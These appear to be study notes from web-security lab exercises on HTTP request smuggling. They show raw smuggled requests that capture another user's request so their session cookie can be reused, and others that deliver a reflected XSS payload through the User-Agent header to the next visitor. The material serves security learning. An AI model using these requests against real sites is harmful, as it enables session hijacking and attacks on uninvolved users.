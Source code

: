 ```http
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=your-session-token

csrf=your-csrf-token&postId=5&name=Carlos+Montoya&email=carlos%40normal-user.net&website=&comment=test
```

1. View the blog post to see if there's a comment containing a user's request. Note that the target user only browses the website intermittently so you may need to repeat this attack a few times before it's successful.
2. Copy the user's Cookie header from the comment, and use it to access their account.


### Exploit reflected XSS
If an application is vulnerable to HTTP request smuggling and also contains reflected XSS:
- you can use a request smuggling attack to:
	- hit other users of the application

This approach is superior to normal exploitation of reflected XSS in 2 ways:
- It requires no interaction with victim users. 
	- You don't need to feed them a URL and wait for them to visit it. 
	- You just smuggle a request containing the XSS payload 
		- and the next user's request that is processed by the back-end server will be hit.
		  
- It can be used to exploit XSS behavior in parts of the request that cannot be trivially controlled in a normal reflected XSS attack, such as HTTP request headers.

For example, suppose an app has a reflected XSS vulnerability in the `User-Agent` header. 
=>
You can exploit this in a request smuggling attack as follows:
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 63
Transfer-Encoding: chunked

0

GET / HTTP/1.1
User-Agent: <script>alert(1)</script>
Foo: X
```

The next user's request:
- will be appended to the smuggled request
- and they will receive the reflected XSS payload in the response.

#### Exploiting HTTP request smuggling to deliver reflected XSS
1. Visit a blog post, and send the request to Burp Repeater.
2. Observe that the comment form contains your `User-Agent` header in a hidden input.
3. Inject an XSS payload into the `User-Agent` header and observe that it gets reflected:
   `"/><script>alert(1)</script>`
4. Smuggle this XSS request to the back-end server, so that it exploits the next visitor:
```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
```